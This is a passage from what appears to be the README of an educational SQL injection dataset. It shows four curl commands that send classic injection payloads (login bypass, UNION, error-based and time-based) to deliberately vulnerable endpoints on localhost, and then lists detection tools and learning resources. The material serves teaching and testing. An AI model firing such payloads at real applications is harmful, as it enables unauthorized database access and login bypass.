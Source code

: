 ### Testing Payloads

Use the provided payloads to test the vulnerable applications:

```bash
# Authentication bypass
curl -X POST http://localhost:5001/vulnerable_login \
  -d "username=admin' OR '1'='1&password=password"

# Union-based injection
curl "http://localhost:5001/vulnerable_search?q=test' UNION SELECT 1,2,3,4 --"

# Error-based injection
curl "http://localhost:5001/vulnerable_error?id=1' AND (SELECT COUNT(*) FROM information_schema.tables) > 0"

# Time-based injection
curl "http://localhost:5001/vulnerable_time?id=1' AND (SELECT COUNT(*) FROM users WHERE id = 1) > 0"
```

## 📚 Educational Resources

### Related Files in This Project

- `sql_injection_detection_python.md` - Detailed guide on SQL injection detection
- `sql_injection_detector.py` - Python-based SQL injection detection tool
- `safe_code_example.py` - Examples of secure coding practices
- `dataset_summary.py` - Dataset analysis and summary tool

### Additional Learning Resources

1. **OWASP SQL Injection Guide**
2. **SQL Injection Prevention Cheat Sheet**
3. **Database Security Best Practices**
4. **Web Application Security Testing**

## 🤝 Contributing

To contribute to this dataset:

1. Add new vulnerability examples
2. Improve existing examples
3. Add new programming languages
4. Enhance payload collections
5. Update mitigation strategies

## 📄 License

This dataset is provided for educational and research purposes only. Use responsibly and in controlled environments.
